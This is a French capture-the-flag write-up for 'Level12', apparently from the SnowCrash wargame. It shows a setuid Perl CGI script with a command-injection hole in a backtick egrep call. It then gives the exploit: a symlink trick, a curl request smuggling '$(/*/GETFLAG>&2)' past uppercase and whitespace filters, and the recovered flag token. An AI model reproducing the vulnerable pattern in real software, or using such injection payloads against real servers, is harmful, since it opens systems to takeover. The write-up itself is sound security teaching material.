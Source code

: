 # [Level12]

### Observations:
##### J'affiche le contenue du programme '~/level12.pl':
```perl
#!/usr/bin/env perl
# localhost:4646
use CGI qw{param};
print "Content-type: text/html\n\n";

sub t {
  $nn = $_[1];
  $xx = $_[0];
  $xx =~ tr/a-z/A-Z/; 
  $xx =~ s/\s.*//;
  @output = `egrep "^$xx" /tmp/xd 2>&1`;
  foreach $line (@output) {
      ($f, $s) = split(/:/, $line);
      if($s =~ $nn) {
          return 1;
      }
  }
  return 0;
}

sub n {
  if($_[0] == 1) {
      print("..");
  } else {
      print(".");
  }    
}

n(t(param("x"), param("y")));
```

##### Détails du programme:
```bash
-rwsr-sr-x+ 1 flag12  level12  464 Mar  5  2016 level12.pl
```

Je me rend compte que ce programme est exécute par défaut en tant qu'utilisateur 'flag12' grâce à la commande:
```sh
ps aux | grep flag12
```

##### Entrées du programme:
```perl
string x
string y
```

##### Fonctionnement:
Ce programme est composé de deux fonctions aux utilitées douteuses:
 * La fonction \<t>:
	1. Applique un filtre sur 'x' qui transforme les lettres minuscules en majuscules.
	2. Applique un filtre sur 'x' qui enlève tout ce qu'il y a après un caractère de séparation.
	3. Exécute une commande shell qui utilise la variable 'x' modifiée.
 * La fonction \<n> est inutile dans son fonctionnement.

> Le programme tourne sur un serveur tcp par defaut

##### Conclusions:
Ce programme a une faille dans la fonction \<t> plus précisement au moment d'exécuter la commande shell. \
Nous pouvons insérer la commande que nous voulons dans celle-ci tant que nous respectons ces règles simples:
 - Utiliser uniquement des caractères majuscule.
 - Ne pas écrire de caractères de séparation.

### Résolution
Je créer un lien symbolique léger pour me permettre d'exécuter getflag avec des caractères majuscules. \
J'effectue une requête au serveur avec ma commande à injecter que je redirige dans le flux d'erreur. \
Puis j'affiche la dernière ligne du fichier de log du flux d'erreur.

#### commandes:
```bash
ln -s /bin/getflag /tmp/GETFLAG
curl '127.0.0.1:4646?x="$(/*/GETFLAG>%262)"'
tail -n 1 /var/log/apache2/error.log
```
> Notez l'utilisation du shellcode '%26' pour éviter que le caractère de '&' soit pris en compte dans le filtre de séparateurs.


**token :** g1qKMiRpXf53AWhDaU7FEkczr